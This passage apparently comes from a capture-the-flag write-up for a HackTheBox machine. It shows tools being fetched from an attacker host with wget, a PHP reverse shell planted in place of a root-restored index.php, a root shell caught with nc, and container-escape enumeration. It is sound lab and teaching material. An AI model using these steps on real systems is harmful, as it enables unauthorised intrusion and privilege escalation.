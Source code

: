 The comments in the scripts do a good job explaining what it does, every few seconds it will run the script to make sure that ``backdrop.carpediem.htb`` is alive and running. If something is wrong, it will copy a backup of `index.php` from `/root`, to restore the site. 

We can confirm if this script is executed by `root` or `www-data` using `pspy64`:
```bash
www-data@90c7f522b842:/dev/shm$ wget http://10.10.14.10/pspy64
www-data@90c7f522b842:/dev/shm$ chmod +x pspy64
www-data@90c7f522b842:/dev/shm$ cp pspy64 /tmp
www-data@90c7f522b842:/dev/shm$ /tmp/pspy64
[... snip ...]
2022/09/14 01:25:17 CMD: UID=0    PID=54872  | /bin/bash /opt/heartbeat.sh
```

It's ran as root. We should be able to get a revere shell as root then by simply replacing index.php with a reverse shell..
```bash
www-data@90c7f522b842:/dev/shm$ cp rev.php /var/www/html/backdrop/index.php

➜  carpediem nc -lvnp 4499                              
listening on [any] 4499 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 41614
Linux 90c7f522b842 5.4.0-97-generic #110-Ubuntu SMP Thu Jan 13 18:22:13 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 01:30:16 up 1 day, 23:13,  0 users,  load average: 0.03, 0.09, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: cant access tty; job control turned off

# id && hostname
uid=0(root) gid=0(root) groups=0(root)
90c7f522b842
```


### Step 4
Trying to escape this container we can upload `deepce.sh` to get some quick information:
```bash
# wget http://10.10.14.10/deepce.sh
# chmod +x deepce.sh
# bash deepce.sh
[... snip ...]
[+] Dangerous Capabilities .. Yes
Current: cap_dac_override
Bounding set =cap_dac_override
Current IAB: !cap_dac_read_search,!cap_sys_module,!cap_sys_ptrace,!cap_sys_admin
[+] Privileged Mode ......... Unknown

[+] Docker sock mounted ....... No
[+] Other mounts .............. No
```

To verify if we're in a privileged mode or not, we can simply `ls -al /dev`, if privileged all devices should be accessible and we can escape by mounting the host disk. If not privileged only a limited amount of devices are shown.
